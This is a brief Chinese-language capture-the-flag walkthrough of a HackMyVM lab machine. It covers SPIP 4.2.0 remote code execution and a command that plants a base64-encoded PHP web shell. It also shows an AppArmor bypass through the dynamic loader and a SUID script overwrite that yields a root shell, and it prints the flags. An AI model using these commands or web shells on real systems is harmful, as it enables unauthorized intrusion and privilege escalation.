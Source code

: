 # Quick2

2025.03.29 https://hackmyvm.eu/machines/machine.php?vm=Publisher

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

http://192.168.5.40/spip/ 版本 SPIP 4.2.0 有 RCE https://www.exploit-db.com/exploits/51536

可以执行 shell，直接反弹不行，写入一句话：

```
python3 51536.py -u http://192.168.5.40/spip/ -c 'echo "PD9waHAgc3lzdGVtKCRfR0VUWzFdKTs/Pg=="|base64 -d > shell.php' -v
```

写入后，得到反弹 shell。

user flag：

```
www-data@41c976e507f8:/home/think$ cat user.txt
fa229046d44eda6a3598c73ad96f4ca5
```

拿到 think 用户私钥，使用私钥登陆。

suid 发现 run_container 可以执行脚本 /opt/run_container.sh 并且有修改权限，但是提示不能修改，系统开启了 apparmor，查看 think 的 bash 发现是/usr/sbin/ash 进行绕过：

```
/lib64/ld-linux-x86-64.so.2 /bin/bash
```

```
think@publisher:/opt$ echo '/bin/bash -p' > run_container.sh
think@publisher:/opt$ /usr/sbin/run_container
bash-5.0# cd /root
bash-5.0# cat root.txt
3a4225cc9e85709adda6ef55d6a4f2ca
```
